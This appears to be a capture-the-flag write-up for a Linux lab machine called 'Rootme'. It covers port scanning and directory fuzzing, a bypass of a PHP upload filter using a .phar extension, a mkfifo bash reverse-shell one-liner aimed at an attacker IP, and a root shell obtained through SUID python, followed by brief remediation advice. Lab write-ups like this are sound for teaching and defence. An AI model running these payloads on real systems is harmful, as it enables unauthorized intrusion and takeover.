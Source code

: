 # Rootme

OS: Linux

# NMAP# 
First we start with enumarting the open TCP ports:
```sh
nmap -p- -vv --min-rate 2000 -oA init -Pn 10.10.106.99
```
```
Nmap 7.93 scan initiated Mon Aug 14 22:38:08 2023 as: nmap -p- -vv --min-rate 2000 -oA init -Pn 10.10.106.99
Nmap scan report for 10.10.106.99
Host is up, received user-set (0.029s latency).
Scanned at 2023-08-14 22:38:08 +08 for 14s
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

# port 80
Since this is a classic CTF we start with checking out the website running on port 80:

![](main.png)

```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.106.99/FUZZ -of all -o dirs80 -c -e .php,.txt,.html -v
```
As result of the fuzzing the directory we see that there are two interesting directories:

```
/panel/
/uploads/
```
When we visit the page we can see that there si a page where we can upload files:

![](main.png)

And the possible location where the uploaded file will be stored:

![](uploads.png)

First we can verify this by simply uploading a .txt file:

![](test.png)

Page says 
> O arquivo foi upado com sucesso!

Which means (according to google translate): The file has been successfully uploaded!
php files blocked. Let's check if the file is in the directory listing of the uploads page:

![](test.png)

Yes it worked! I was able to open the file.
So next we try to upload a php file to see:
1. if we can upload with a php extension
2. if php get's executed.

We know that the page is using PHP with the Wappalyzer plugin. Or we can run a scan with whatweb to verify.
The file we create is a simple PHP script which simply will output "Hello Hacker" with no additional newlines or spaces. 
In a real engagement we would not use the word hacker. Opsec...

```php
<?php
 echo("Hello Hacker")
?>
```
Oh No!

> PHP não é permitido!

..,with a red background. I don't even have to translate. So we have to find a way to bypass this (server-side) filter.

A great resource for bypassing file extension checksis: [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology)

We start testing with .php2. Yes we have are able to upload a file with a .php2 extension.
Now we need to try if we can get "Hello Hacker" displayed on the page.

![](php2blank.png)

Hmm...that doesn't look good. Nothing is shown on the page.

Okay maybe the .phar extension. 🤞

Great! The upload was successful and if we look up the file http://IP/uploads/test.phar. We get a greeting from a nice person who recognizes us:

![](testphar.png)

Next step is to get a shell. To accomplish this we can make a file with the contents:

```php


<?php

exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1| 10.10.10.10 443 >/tmp/f");

?>
```

We start a listener on our attacker machine and upload the file to the page.
Now if we request the file on the page we should get a reverse shell on our attacker machine
```sh
curl http://IP/uploads/shell.phar
```
BOOM!! We have a shell as user www-data on the machine. we can now read the user.txt flag.


![](usershell.png)

## Recommendations:
1. Apply the best practices to prevent file upload attacks: https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
2. disable directory listing (CWE-548).

# privilege escalation
Enumeration for privilege escalation is performed with linpeas and we see (accoridng to linpeas) a very intersting file:

![](suidpython.png)

The suid bit is set on python which means that the file will get executed as the user who owns the file.
We need to lookup how to take advantage of this (mis)configuration. A great source is [GTFObins](https://gtfobins.github.io/gtfobins/)
To be more precise: https://gtfobins.github.io/gtfobins/python/#suid

We execute the following command to get a root shell:
```sh
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![](root.png)

## Recommendations:
1. Do not set SUID on binaries which are able to execute commands.
